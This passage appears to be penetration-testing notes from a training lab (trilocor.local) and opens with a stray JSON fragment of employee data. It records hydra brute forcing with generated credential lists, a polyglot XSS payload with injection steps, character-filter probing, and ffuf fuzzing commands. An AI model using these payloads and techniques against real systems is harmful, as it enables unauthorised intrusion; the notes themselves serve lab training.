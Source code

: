         "Department": "Human Resources",
        "LinkedIn Skill": "Newspapers",
        "Employment start date": "6/14/2018",
        "Age Group": ">70",
> Created list of possible usernames and passwords with useranarchy and cupp and performed hydra brute force


**ZAProxy:**
- ZAProxy found no other directories, but found XSS Vuln:
```
#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e
```
1. submit this at the end of url: http://www.trilocor.local:8088/PAYLOAD
2. Put it in as the username
3. Put it in as the password
4. Submit form, and alert will show

**Forbidden Pages:**
http://www.trilocor.local:8088/.htaccess
http://www.trilocor.local:8088/server-status

**Blacklisted Characters:** *invalid username*
- `'`
- `"`
- `\=`
- `\`
- ` `
**Allowed Characters:**
- `;`
- `-`
- `$`
> **Note:** no space can be appended to username

**Login Page:**
- No SQLi
- Tried brute-forcing with usernames from front PR site but nothing

**Outdated Objects:**
- Apache 2.4.41: tried path traversal for 2.4.49 but nothing
	- If we get a shell: CVE-2019-0211

## Jobs Portal: http://www.trilocor.local:8080/
Username: htbtest, htbshell

**Fuzzing:**
- No robots.txt
- No submdomains: `ffuf -w subdomains-top1million-20000.txt:FUZZ -u http://www.trilocor.local:8080/ -H 'Host: FUZZ.trilocor.local' -fs 0`
- Fuzzed for WSDL (nothing)
	- `ffuf -w burp-parameter-names.txt -u 'http://www.trilocor.local:8088/wsdl?FUZZ'`
- Fuzzed Uploads directory for php files (got /index.php but nothing)
	- `ffuf -w directory-list-2.3-small.txt:FUZZ -u http://www.trilocor.local:8080/uploads/FUZZ.php`
- Fuzzed directories: `ffuf -w directory-list-2.3-small.txt:FUZZ -u http://www.trilocor.local:8080/FUZZ -recursion -recursion-depth 3 -v`
	- uploads
	- assets
	- includes
	- dashboard.php
